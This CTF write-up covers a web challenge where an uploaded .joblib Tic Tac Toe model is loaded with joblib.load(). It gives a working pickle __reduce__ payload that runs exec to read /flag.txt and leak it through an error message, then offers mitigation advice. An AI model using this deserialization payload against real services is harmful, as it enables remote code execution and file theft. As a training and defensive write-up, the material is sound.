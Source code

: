 # Tic Tac Toe Web Challenge Write-Up  
**By:** Monish Polimetla  
**Category:** Web  
**Difficulty:** Medium  
**Challenge Type:** CTF Challenge  

---

## Description

This challenge provided a simple web interface to upload a `.joblib` file representing a Tic Tac Toe AI. The uploaded model would play a complete game against the server’s AI. The game logs and final outcome were displayed after uploading the model.

At first, it seems like a machine learning challenge where the goal is to beat the AI. However, with a closer look at the backend code, it becomes clear that the real vulnerability lies in how the server loads and executes the uploaded model.

---

## Goal

Abuse Python's insecure deserialization via `joblib.load()` to extract the contents of `/flag.txt` without playing the game at all.

---

## Web Interface Behavior

From the instructions on the challenge page:

- Your model will receive a list of 9 integers representing the game board:
  - `0` = empty
  - `1` = your moves
  - `2` = opponent's moves

- The model must return a single integer from `0` to `8`, indicating your move.

Behind the scenes, the application does the following:

- Uploads the `.joblib` file  
- Loads the model using `joblib.load()`  
- Plays a full game turn-by-turn  
- Displays the game result or model errors on the page  

---

## Code Behavior

From the source code in `app.py`, the critical vulnerability is here:

```python
user_model = joblib.load(path)

## Payload Construction

### Step 1: Create the Malicious Class

```python
class PickleExploit:
    def __reduce__(self):
        return (exec, ("raise RuntimeError(open('/flag.txt').read())",))
```

- `__reduce__()` defines how an object is serialized and deserialized.
- We return an `exec()` call that throws the contents of the flag as an error.

---

### Step 2: Save the Object as a `.joblib` File

```python
import pickle

with open("pickle_exploit.joblib", "wb") as f:
    pickle.dump(PickleExploit(), f)
```

- This file will now run the `exec(...)` command as soon as the server loads it.

---

## Exploit Execution

We upload `pickle_exploit.joblib` to the challenge site.

The result:

- The server calls `joblib.load()`
- `pickle` runs our `__reduce__()` method
- A `RuntimeError` is thrown with the contents of `/flag.txt`
- The Flask web app catches the error and displays it as:

```
Model error: SVUSCG{04a0bedb1cf32545562ddb58e00e104f}
```

---

## Why It Worked

- `joblib.load()` = `pickle.load()` under the hood
- `pickle.load()` blindly executes instructions returned by `__reduce__()`
- The app prints exception messages back to the user
- The flag was stored in a readable file at `/flag.txt`

This chain made it possible to exfiltrate the flag using only Python deserialization.

---

## Mitigation Advice

This is a textbook example of insecure deserialization. Here’s what should have been done differently:

### What Went Wrong

- Untrusted user input was deserialized without sandboxing.
- `pickle` was used in a production-facing environment.
- Error messages were printed directly to the frontend.

### How to Fix It

- Never use `pickle`, `joblib`, or `dill` to load untrusted content.
- Use safe formats (e.g., ONNX, PMML, JSON) for model uploads.
- Run untrusted code inside an isolated Docker or Firejail sandbox.
- Never show raw exceptions to users — log them privately instead.

---
